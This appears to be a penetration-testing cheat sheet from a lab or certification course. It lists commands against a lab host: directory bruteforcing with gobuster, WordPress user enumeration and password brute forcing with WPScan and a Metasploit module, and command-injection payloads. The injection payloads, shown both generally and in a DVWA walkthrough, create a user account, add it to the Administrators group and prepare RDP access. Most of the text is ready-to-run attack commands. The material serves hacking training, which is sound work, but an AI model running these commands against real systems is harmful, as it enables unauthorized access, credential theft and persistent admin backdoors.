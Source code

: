 1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.
2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt
3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin
4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 
5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
----------------------------------------------------------------------------------------------------------------
COMMAND INJECTION (DVWA):

Login to DVWA
Set the Security Level "Low"
Click on the Command Injection Tab 
Check the parameter is vulnerable or not and it is vulnerable 
Now enter the system cmd's
| hostname
| whoami
| dir C:\path.txt
| type path.txt

| net user
| net user Test /Add
| net user
| net user Test
| net localgroup Administrators Test /Add

Succefully created the "Test" user account.
